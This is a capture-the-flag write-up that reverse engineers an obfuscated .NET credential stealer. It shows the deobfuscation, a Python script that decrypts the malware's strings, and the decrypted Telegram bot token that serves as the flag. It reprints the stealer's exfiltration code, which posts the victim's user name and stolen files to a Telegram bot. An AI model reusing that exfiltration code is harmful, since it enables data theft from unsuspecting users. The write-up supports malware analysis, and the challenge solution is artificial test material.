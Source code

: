 # stealer
### Overview

The task involved reverse engineering a `.Net 32-bit` executable named `snake.mal`. The primary objective was to analyze the executable, identify its functionality, and decode any hidden or encrypted data within the file. The reversing process was conducted using several tools, including `de4dot` for deobfuscation and custom scripts to decrypt strings used by the malware.

### Initial Analysis

Upon opening `snake.mal.exe` in a decompiler, it was evident that the executable was heavily obfuscated. The functions and classes were renamed to nonsensical names, making manual analysis difficult.

![image](https://github.com/user-attachments/assets/c7aade9d-9670-4ff0-97c2-2c966c68a8a4)


To proceed with the analysis, `de4dot` was employed to clean the obfuscated code. Running the tool produced a cleaned version of the executable, where the obfuscated symbols were renamed to more readable forms, significantly easing the analysis process.

```jsx
C:\Users\mahmoud\Desktop> C:\Tools\de4dot\de4dot.exe snake.mal

de4dot v3.1.41592.3405 Copyright (C) 2011-2015 de4dot@gmail.com
Latest version and source code: https://github.com/0xd4d/de4dot

Detected Unknown Obfuscator (C:\Users\mahmoud\Desktop\snake\snake.mal)
Cleaning C:\Users\mahmoud\Desktop\snake\snake.mal
Renaming all obfuscated symbols
Saving C:\Users\mahmoud\Desktop\snake\snake-cleaned.mal
```

![image](https://github.com/user-attachments/assets/34de0158-f1ff-491b-8a49-4417c771aee0)


With the code now more readable, we can delve into its functionality.

Found some functions that provide clear evidence that the malware is stealing data.

![image](https://github.com/user-attachments/assets/f641cca3-ed1a-44ba-8e0d-c40b52f98074)


Other numerous functions have been identified that appear to interact with Telegram.

![image](https://github.com/user-attachments/assets/893047fe-11d4-4aca-885b-fd511b1540e3)


If we examine the methods from the previous screenshot, several of them call a function named `smethod_16`, each passing different encrypted strings to it.



The `smethod_16` function is a decryption method, which utilized DES encryption with a key derived from an MD5 hash. 

![image](https://github.com/user-attachments/assets/d486e355-593a-49b9-9429-542bed21440c)


Wrote Python script to replicate this decryption process:

```jsx
import base64
from Crypto.Cipher import DES
from Crypto.Hash import MD5

def smethod_16(encrypted_string, key):
    try:
        des = DES.new(MD5.new(key.encode()).digest()[:8], DES.MODE_ECB)
        decrypted_bytes = des.decrypt(base64.b64decode(encrypted_string))
        decrypted_string = decrypted_bytes.decode()
        return decrypted_string
    except Exception as e:
        print(f"Error decrypting string: {e}")
        return None
    
   
print(smethod_16("zMaRPCbE0Gb4k/zB6ZNS3r1L34TENqMZD9RW6hkhoOE=", "nnrCOnrJyiwsACMwnkEJB"))
# result "https://api.telegram.org/bot"

print(smethod_16("FphMdFa3hOQv6jbOo+Di/krf6/KeCXcASv1A0PTZtTaqOQqu46FvhqM0pdqb8g0/", "BsrOkyiChvpfhAkipZAxnnChkMGkLnAiZhGMyrnJfULiDGkfTkrTELinhfkLkJrkDExMvkEUCxUkUGr"))
# result "7267561120:QkhGbGFnWXt0M2xlZ3I0bV9nMGVzX3chbGR9"
```

So that part of the code will result

```jsx
			ServicePointManager.Expect100Continue = false;
			ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
			string text2 = string.Concat(new string[]
			{
				https://api.telegram.org/bot,
				7267561120:QkhGbGFnWXt0M2xlZ3I0bV9nMGVzX3chbGR9,
				/sendDocument?chat_id=,
				5481237002,
				"&caption=",
				string.Concat(new string[]
				{
					" Pc Name: ",
					Environment.UserName,
					" | Snake Tracker\r\n\r\nPW | ",
					Environment.UserName,
					" | Snake\r\n\r\n\r\n"
				})
			});
```

Given our understanding of the Telegram API, these strings are parameters used to communicate with a Telegram bot. This suggests that the malware is designed to steal data and then use the bot to upload that data.

To obtain the flag, all we needed to do was decode the bot token, which revealed the flag.
